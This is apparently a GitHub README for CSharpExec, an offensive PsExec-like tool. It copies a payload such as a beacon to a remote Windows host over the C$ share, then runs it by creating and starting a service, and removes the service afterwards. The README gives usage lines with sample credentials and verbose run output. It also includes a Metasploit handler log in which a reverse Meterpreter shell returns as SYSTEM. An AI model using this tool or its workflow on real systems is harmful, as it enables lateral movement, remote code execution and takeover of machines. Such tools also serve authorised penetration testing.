 # CSharpExec

PSExec, kinda.

This project can use both the current context and credentials to connect to a remote host, copy the payload, and then create and start a service. Once the service is running, it will then remove it. 

## Usage
```
[*] Usage: .\CSharpExec.exe <Host> [<Username>] [<Password>] <Path2Exe>
[*] Example 1: .\CSharpExec.exe 192.168.0.1 Administrator Password123! c:\beacon-svc.exe
[*] Example 2: .\CSharpExec.exe 192.168.0.1 Administrator Password123! c:\beacon-svc.exe C$
[*] Example 3: .\CSharpExec.exe 192.168.0.1 c:\beacon-svc.exe
[*] Example 4: .\CSharpExec.exe 192.168.0.1 c:\beacon-svc.exe C$
```

Like most of this stuff I write, its fairly verbose so it should be obvious(?) if something goes wrong. Heres some example output:
```
[*] Using: \\10.10.11.115\c$
[*] Using credentials: Administrator:Password123!
[*] Attempting to connect to: \\10.10.11.115\c$
[+] Response from share: NO_ERROR
[*] Copying shell-svc.exe to \\10.10.11.115\c$\Y5IuCQ8h
[+] Copied to \\10.10.11.115\c$\Y5IuCQ8h
[*] Attempting to create service: Y5IuCQ8h
[+] Handle for OpenSCManager obtained: 13645056
[+] Handle for CreateService obtained: 13645056
[+] Y5IuCQ8h created!
[*] Attempting to start the service...
[+] Y5IuCQ8h was started!
[*] Session should have returned, uninstalling Y5IuCQ8h
[*] Attempting to remove the service...
[+] Y5IuCQ8h was deleted!
```
As expected, this returns `SYSTEM`:
```
msf5 exploit(multi/handler) > run

[*] Started reverse TCP handler on 10.10.11.119:443 
[*] Sending stage (201283 bytes) to 10.10.11.115
[*] Meterpreter session 7 opened (10.10.11.119:443 -> 10.10.11.115:59263) at 2020-07-26 00:06:05 +0100

meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
meterpreter > 

```

I borrowed some enums from [this project](https://github.com/malcomvetter/CSExec/blob/master/csexec/Program.cs) which is similar, but takes a different approach.